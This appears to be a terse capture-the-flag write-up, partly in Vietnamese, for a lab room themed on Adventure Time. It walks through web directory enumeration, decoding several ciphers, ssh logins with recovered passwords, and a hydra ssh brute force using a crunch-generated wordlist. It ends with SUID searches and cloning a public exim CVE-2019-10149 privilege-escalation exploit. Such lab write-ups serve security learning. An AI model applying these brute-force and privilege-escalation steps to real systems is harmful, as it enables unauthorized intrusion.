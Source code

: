 Room: Adventure Time

Flag1->Hint: Try to recursively enumerate the website(Hãy thử liệt kê (hoặc quét) đệ quy toàn bộ trang web).

$  nmap -sV -v <ip>

<img width="617" height="100" alt="{E4052F82-7898-43AB-9846-334DECEBE22C}" src="https://github.com/user-attachments/assets/07f086c2-edc9-4913-a18c-26d2e237412f" />

gobuster -u https://<IP>-w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

<img width="955" height="318" alt="{CD002047-A8C9-4AE8-B51A-FBAAB9415AFE}" src="https://github.com/user-attachments/assets/5cd30fba-f9d1-49de-ac59-4f2a099abad4" />

=>/candybar/

$  echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d 

=> Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth.

https://www.dcode.fr/caesar-cipher

$ echo "Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth." | tr 'A-Za-z' 'N-ZA-Mn-za-m'

https://land-of-ooo.com

$  sudo gobuster -u https:// land-of-ooo.com -w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> yellowdog

https://land-of-ooo.com/yellowdog/

$  sudo gobuster dir -u https://land-of-ooo.com/yellowdog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> bananastock

https://land-of-ooo.com/yellowdog/bananastock/

Morse code: _/…./.\_…/._/_./._/_./._/…\._/._./.\_/…./.\_…/./…/_/_._.__/_._.__/_._.__

https://www.dcode.fr/morse-code

=>Pass: The banana are the best!!!

$  sudo gobuster dir -e -u https://land-of-ooo.com/yellowdog/bananastock/ -w /usr/share/wordlists/dirb/common.txt -k

=> princess

https://land-of-ooo.com/yellowdog/bananastock/princess/

https://anycript.com/crypto

AES (viết tắt của Advanced Encryption Standard) là một thuật toán mã hóa đối xứng rất phổ biến và mạnh mẽ, được dùng trong hầu hết các hệ thống bảo mật hiện nay — như HTTPS, VPN, Wi-Fi (WPA2/WPA3), ngân hàng, và thiết bị di động.

$  nc land-of-ooo.com 31337

$  sudo ssh apple-guards@<IP>  ,Password: THE BANANAS ARE THE BEST!!!

Flag2->Hint: Can you search for someone's files?

$  find / -user marceline -type f 2>/dev/null

https://www.boxentriq.com/code-breaking/vigenere-cipher

Vigenère cipher là một mã hóa chữ cái theo kiểu dùng khóa (key) lặp lại để dịch chuyển mỗi chữ cái của plaintext với bảng chữ cái 26 ký tự.

=> Abadeer

$  su marceline > Password: My friend Finn

Flag3:

https://www.dcode.fr/spoon-language

=> The magic word you are looking for is ApplePie

$  nc land-of-ooo.com 31337

$  su peppermint-butler > Password: That Black Magic

Flag4->Hint: Things can be hidden and hidden things can be unfolded with the right passwords(Những thứ có thể bị giấu, và những điều bị giấu có thể được hé lộ nếu có đúng mật khẩu).

$  find / -user peppermint-butler -type f 2>/dev/null

$  cat /usr/share/xml/steg.txt

$  find / -user peppermint-butler -name "*.txt" 2>/dev/null

$  cat /etc/php/zip.txt

$  crunch 18 18 -t 'The Ice King s@@@@' > file.txt

$  sudo hydra -l gunter -P file.txt ssh://<IP>

$  su gunter > Password: The Ice King sucks

Flag5:

$  find / -perm /4000 2>/dev/null

$  searchsploit exim

$  cd /etc/exim4/

$  cat /etc/exim4/update-exim4.conf.conf

$  git clone ‘https://github.com/AzizMea/CVE-2019-10149-privilege-escalation.git'
